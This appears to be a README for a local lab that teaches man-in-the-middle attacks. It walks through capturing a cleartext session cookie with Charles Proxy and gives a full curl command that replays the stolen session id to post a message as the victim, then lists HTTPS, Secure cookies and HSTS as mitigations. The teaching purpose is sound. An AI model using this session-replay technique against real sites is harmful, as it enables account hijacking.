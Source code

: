 # Man In The Middle Attacks

## Overview
A man-in-the-middle attack (often abbreviated MITM) is when an attacker intercepts a request between a user and the site they're connecting to. If that request isn't encrypted, an attacker can read the information it contains. That is, if the session id is unencrypted, a man-in-the-middle can steal it

## Folders
[M👨ITM](../src/MITM)


## Setup For Simulating Attack
- Download & Install Charles Proxy
https://www.charlesproxy.com/download/

1. `vim ~/etc/hosts`
```bash
# add an entry with the following
127.0.0.1 localhost evil.com
```
2. `yarn installation` or `sudo npm i`
3. [M👨ITM](../src/MITM) or run `cd ../src/MITM`
4. run `sudo yarn start:both`
5. As the attacker, open Charles Proxy.
6. As the user, log into http://localhost.charlesproxy.com and then submit a message.
7. As the attacker, find the request in Charles, note that the session id is present as cleartext, modify it, and replay it.

**HINT**
Your curl req should include something like a data param edit that message and execute in terminal
```bash
## Sample Curl Req
curl -H 'Host: localhost.charlesproxy.com' -H 'DNT: 1' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/79.0.3945.130 Safari/537.36' -H 'Content-type: application/x-www-form-urlencoded' -H 'Accept: */*' -H 'Origin: http://localhost.charlesproxy.com' -H 'Referer: http://localhost.charlesproxy.com/' -H 'Accept-Language: en-US,en;q=0.9' -H 'Cookie: _ga=GA1.2.522625857.1584068130; _gid=GA1.2.1231267101.1585434712; connect.sid=s%3ApZPCS7JbHhvDPRy-5v_NdVeGqI6P8f09.MEg50jPduLj8Kcuk2wKCKakS4Wj2SVpWy9hUg6Mu2HQ' --data-binary "message=HACKED" --compressed 'http://localhost.charlesproxy.com/'
```
8. As the user, refresh http://localhost.charlesproxy.com and notice there is now a message present that "you" didn't write.

## Setup For Mitigating Attack
- Set up https
- Redirect http to https
- Set the Secure cookie flag
- Set up HSTS